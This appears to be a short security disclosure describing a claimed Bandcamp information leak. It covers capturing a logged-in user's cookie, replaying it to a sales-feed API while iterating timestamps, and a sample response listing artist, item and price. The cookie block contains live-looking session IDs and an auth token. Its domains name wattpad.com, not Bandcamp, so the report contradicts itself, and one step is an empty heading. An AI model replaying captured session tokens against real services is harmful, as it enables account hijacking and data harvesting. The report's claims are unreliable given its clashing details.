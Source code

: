 # About Bandcamp Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie: wp_id=d009d7cb-9041-46a2-a004-826cff01b7aa; lang=1; _ga=GA1.1.500116561.1711539863; _fbp=fb.1.1711539863586.1786727445; _pbjs_userid_consent_data=3524755945110770; _sharedid=014ee592-f8dd-4993-9741-7f62da71246c; g_state={"i_p":1711547080940,"i_l":1}; fbm_2582347323=base_domain=.wattpad.com; locale=en_US; token=462965140%3A2%3A1711540226%3AqEeVSRSqDk_yvPXvHza9uN6vVIzhpiObJWVy14c87omxtPE1FmQRnwruVFKFzezR; ff=1; dpr=1; tz=-8; X-Time-Zone=Asia%2FShanghai; hc=2024-03-27T11%3A50%3A28.645Z; seen-wallet-onboard=1; isStaff=1; _ga_FNDTZ0MZDQ=GS1.1.1712101115.3.0.1712101115.0.0.0; te_session_id=1712101115137; RT=nu=https%3A%2F%2Fwww.wattpad.com%2Fuser%2FShionYg&cl=1712101219873
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: Authhor name,Price,Buyer'Country.

> Request method: GET, information can be obtained by traversing the constructed start_date, such as "1712112120", "1707725640"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params |
|--------------|---|------------|
| Yizhimuzhu666|https://bandcamp.com/api/salesfeed/1/get?start_date=1712112120|start_date=1712112120|



### Leaked packet cases 
``` 
{
            "event_type": "sale",
            "utc_date": 1712112842.1493337,
            "items": [
                {
                    "utc_date": 1712112842.2647789,
                    "artist_name": "Mors Vitaque",
                    "item_type": "p",
                    "item_description": "Special Edition Cassette",
                    "album_title": "Another Path",
                    "slug_type": "a",
                    "track_album_slug_text": null,
                    "currency": "USD",
                    "amount_paid": 15,
                    "item_price": 15,
                    "amount_paid_usd": 15,
                    "country": "******",
                    "art_id": null,
                    "releases": null,
                    "package_image_id": 35581169,
                    "url": "//morsvitaque.bandcamp.com/album/another-path",
                    "country_code": "**",
                    "amount_paid_fmt": "$15",
                    "art_url": "https://f4.bcbits.com/img/0035581169_37.jpg"
                }
            ]
        }
```